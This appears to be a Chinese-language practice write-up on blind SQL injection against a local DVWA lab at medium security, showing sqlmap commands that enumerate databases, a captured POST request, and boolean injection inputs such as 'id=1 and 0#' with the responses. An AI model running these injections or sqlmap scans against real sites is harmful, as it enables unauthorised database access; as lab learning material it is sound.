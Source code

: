 * sqlmap 太舒服了
```
python D:\SQL_map\sqlmap-master\sqlmap.py  -r http_request.txt --batch

順便看一下databases
python D:\SQL_map\sqlmap-master\sqlmap.py  -r http_request.txt --batch --dbs

```




# Medium

這他用post 方式，我們需要抓包，手動分析一下是哪種類型注入。

bp
```http=
POST /vulnerabilities/sqli_blind/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://localhost
Connection: close
Referer: http://localhost/vulnerabilities/sqli_blind/
Cookie: PHPSESSID=f07dfff7ec2a9fb6f776ea55eba45859; security=medium
Upgrade-Insecure-Requests: 1

id=1#&Submit=Submit

```



數字型(bool)
```

id=1 and 1#
User ID exists in the database.

id=1 and 0#
User ID is MISSING from the database.

```




好啦，直接不演了

```bash=
python D:\SQL_map\sqlmap-master\sqlmap.py  -r http_request.txt --batch --dbs

```
OK

